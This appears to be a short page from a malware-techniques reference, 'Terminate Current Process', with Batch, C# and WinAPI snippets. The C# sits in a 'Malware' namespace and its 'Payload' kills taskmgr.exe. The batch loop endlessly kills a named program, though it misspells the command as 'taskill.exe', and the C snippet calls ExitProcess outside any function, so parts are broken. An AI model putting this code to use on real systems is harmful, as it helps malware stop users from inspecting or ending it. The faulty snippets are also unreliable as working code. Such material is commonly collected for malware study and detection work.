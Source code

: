 # Terminate Current Process

## Scripting

### Batch

```batch
@echo off

set program_name=""

:main
tasklist.exe /fi "ImageName eq %program_name%" /fo csv 2>nul | find.exe /I "%program_name%">nul
if "%ERRORLEVEL%" == "0" taskill.exe /F /IM %program_name%
goto main
```

## .NET

### C\#

```cs
using System.Diagnostics;

namespace Malware {
    public class Payload {
	    static void Main(string[] args) {
		    TerminateProcess("taskmgr.exe");
	    }

        public static void TerminateProcess(string process_name) {
	        Process[] process = Process.GetProcessesByName(process_name);
            if (process.Length > 0)
                process[0].Kill();
        }
    }
}
```

## WinAPI

```c
#include <windows.h>
#include <processthreadsapi.h>

#pragma comment(lib, "kernel32.lib")

ExitProcess(-1);
```

---
## References

### Tenouk

- [Tenouk: Processes and Threads - WinAPI - Part 10](https://www.tenouk.com/ModuleU4.html)
